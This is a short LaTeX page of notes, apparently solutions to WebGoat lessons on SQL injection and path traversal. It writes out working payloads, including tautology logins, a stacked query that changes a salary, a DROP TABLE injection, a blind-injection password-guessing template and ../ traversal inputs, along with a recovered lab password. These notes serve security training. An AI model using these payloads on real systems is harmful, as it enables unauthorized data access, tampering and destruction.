 \documentclass[11pt,a4paper]{report}
\begin{document}
\subsubsection{SQL Injection(Intro)}
I get the department with the query "select department from employees where userid=96134;".


I update the department with the query "update employees set department='Sales' where userId=89762;".


I add the phone column with the query "alter table employees add phone varchar(20)";.


I grant rights with the query "GRANT insert ON grant\_rights TO unauthorized\_user;".


I can use injection by inserting "Smith' or '1' = '1'".


I can use injection on the last field by writing "1 or '1' = '1'".


I can get the salaries by typing in "' or 1=1;--" in the Lastname field.


I can change John salary by inputting "smith'; update employees set 
salary = 999999 where auth\_tan='3SL99A';--".


I can delete the table by using "'; drop table access\_log; --".

\subsubsection{SQL Injection(Advanced)}

I can get the user data with the query "'; select * from user\_system\_data;--"

thisisasecretfortomonly
tom'+and+substring(password,§3§,1)='§t§';--


put ../ before the username.

put ....// before username

put ../ before the filename

put urlencoded ../../ as id followed by file name GET 
/WebGoat/PathTraversal/random-picture?id=

\end{document}
